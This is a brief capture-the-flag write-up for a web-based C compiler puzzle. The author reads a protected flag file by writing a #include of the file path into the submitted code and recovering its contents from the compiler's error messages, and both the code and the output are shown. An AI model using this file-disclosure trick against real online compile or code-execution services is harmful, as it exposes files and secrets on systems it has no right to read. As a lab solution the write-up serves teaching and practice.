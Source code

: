 We are directed to a webpage that shows what seems to be a text box where we can write c code to solve a puzzle. 
The description also says that the flag is in /home/ctf/flag.txt

First attempt I just tried calling system to cat the file, which it does not allow so there is limited functionality.

Lets just include the file..

```
#include <stdio.h>
#include <stdlib.h>
const char *s = 
#include "/home/ctf/flag.txt"
;
int main(void){
	//print number of islands
	printf("%i\n", 10);
       printf("%s\n", s);
	return 0;
}
```

in the error message it gave me the flag:

```
Compiler stdout
None
stderr
In file included from /tmp/sarce/tmpnx5sqnw7/input.c:12:
/home/ctf/flag.txt:1:1: error: 'WPI' undeclared here (not in a function)
    1 | WPI{D0nt_run_as_r00t}
      | ^~~
/home/ctf/flag.txt:1:4: error: expected ',' or ';' before '{' token
    1 | WPI{D0nt_run_as_r00t}
      |    ^
/tmp/sarce/tmpnx5sqnw7/input.c:13:1: warning: ISO C does not allow extra ';' outside of a function [-Wpedantic]
   13 | ;
      | ^
```
